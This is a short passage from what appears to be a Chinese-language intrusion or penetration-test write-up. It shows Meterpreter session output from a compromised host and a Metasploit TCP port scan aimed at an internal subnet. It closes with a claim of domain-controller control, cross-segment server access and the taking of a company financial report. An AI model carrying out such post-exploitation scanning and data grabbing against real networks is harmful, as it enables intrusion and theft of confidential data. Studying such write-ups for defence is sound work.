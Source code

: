 ```code
MTU : 1520
IPv4 Address : 127.0.0.1

Interface 2

============
Name : Broadcom NetXtreme Gigabit Ethernet - McAfee NDIS Intermediate Filter Miniport
Hardware MAC : 00:11:25:40:77:8f
MTU : 1500
IPv4 Address : 10.23.255.3 IPv4 Netmask : 255.255.255.0

meterpreter >
Background session 3? [y/N]

msf auxiliary(tcp) > use auxiliary/scanner/portscan/tcp
msf auxiliary(tcp) > show options
Module options (auxiliary/scanner/portscan/tcp):

Name Current Setting Required Description
---- --------------- -------- -----------

CONCURRENCY 10 yes The number of concurrent ports to check per host
DELAY 0 yes The delay between connections, per thread, in milliseconds
JITTER 0 yes The delay jitter factor (maximum value by which to +/- DELAY) in milliseconds.
PORTS 445,80,3389,22 yes Ports to scan (e.g. 22-25,80,110-900)
RHOSTS 10.23.255.1-255 yes The target address range or CIDR identifier
THREADS 10 yes The number of concurrent threads
TIMEOUT 1000 yes The socket connect timeout in milliseconds
```

最终得到了域控权限，并且得到了跨段的服务器权限。得到了个人机的重要权限，以及公司财报doc。  

部分截图如下：由于时间问题，顺序可能打乱了。  
![](../do/media/d9c285d8edbf94e604d4e2f92fe63815.jpg)
